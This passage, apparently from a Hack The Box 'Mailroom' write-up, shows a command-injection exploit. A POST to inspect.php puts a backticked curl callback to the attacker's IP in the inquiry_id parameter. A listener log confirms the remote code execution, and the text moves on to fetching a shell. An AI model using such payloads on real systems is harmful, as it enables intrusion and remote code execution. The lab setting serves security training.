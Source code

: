 Visiting the link would refer us to the `dashboard.php`:

<figure><img src="../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

Great! We have logged in. Earlier, we found an RCE in the `inquiry_id` parameter, so let's exploit that.

```http
POST /inspect.php HTTP/1.1
Host: staff-review-panel.mailroom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://staff-review-panel.mailroom.htb
Connection: close
Referer: http://staff-review-panel.mailroom.htb/inspect.php
Cookie: PHPSESSID=258a0de5b6d723eaa26caa846646bb36
Upgrade-Insecure-Requests: 1



inquiry_id=`curl+10.10.16.31:1234/rcecfmed`
```

```
$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.129.61.100 - - [18/Apr/2023 00:08:29] code 404, message File not found
10.129.61.100 - - [18/Apr/2023 00:08:29] "GET /rcecfmed HTTP/1.1" 404 -
```

Great! Now we can simply download a shell and execute it.
